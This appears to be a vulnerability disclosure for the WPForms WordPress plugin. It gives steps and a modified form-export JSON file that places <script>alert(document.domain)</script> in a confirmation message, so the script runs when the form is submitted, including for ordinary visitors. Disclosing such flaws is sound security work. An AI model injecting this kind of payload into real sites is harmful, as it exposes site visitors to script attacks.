# Html Injection

Steps to reproduce

- Install the WPForms and create a form using any of the template
    
    ![Untitled](Html%20Injection%205cd440269f574bf488af8c4dc826c921/Untitled.png)
    
- Navigate to Tools and Export the created form
    
    ![Untitled](Html%20Injection%205cd440269f574bf488af8c4dc826c921/Untitled%201.png)
    
- Open the exported json file in any of the text editor and insert the html in the message field

```json
[{"fields":[{"id":"0","type":"name","format":"first-last","label":"Name","required":"1","size":"medium"},{"id":"1","type":"email","label":"Email","required":"1","size":"medium","allowlist":"","denylist":"","default_value":""},{"id":"2","type":"textarea","label":"Comment or Message","size":"medium","placeholder":"","css":""}],"field_id":3,"settings":{"form_title":"form template","form_desc":"","submit_text":"Submit","submit_text_processing":"Sending...","antispam":"1","form_class":"","submit_class":"","ajax_submit":"1","notification_enable":"1","notifications":{"1":{"email":"{admin_email}","subject":"New Entry: Simple Contact Form","sender_name":"Testing","sender_address":"{admin_email}","replyto":"{field_id=\"1\"}","message":"{all_fields}"}},"confirmations":{"1":{"type":"message","message":"<script>alert(document.domain)</script>","message_scroll":"1","page":"42","redirect":""}},"form_tags":[]},"meta":{"template":"simple-contact-form-template"},"id":"178","payments":[]}]
```

- Import the modified json file in the Import screen of the plugin
    
    ![Untitled](Html%20Injection%205cd440269f574bf488af8c4dc826c921/Untitled%202.png)
    
- If the import is successful, a notice will appear like below
    
    ![Untitled](Html%20Injection%205cd440269f574bf488af8c4dc826c921/Untitled%203.png)
    
- Click on the imported form and open the preview mode
    
    ![Untitled](Html%20Injection%205cd440269f574bf488af8c4dc826c921/Untitled%204.png)
    
    ![Untitled](Html%20Injection%205cd440269f574bf488af8c4dc826c921/Untitled%205.png)
    
- Fill some details and click on the submit button for the payload(html) to get executed
    
    ![Untitled](Html%20Injection%205cd440269f574bf488af8c4dc826c921/Untitled%206.png)
    
    Note: If the form is used in wordpress posts, pages, etc, normal user will get the same.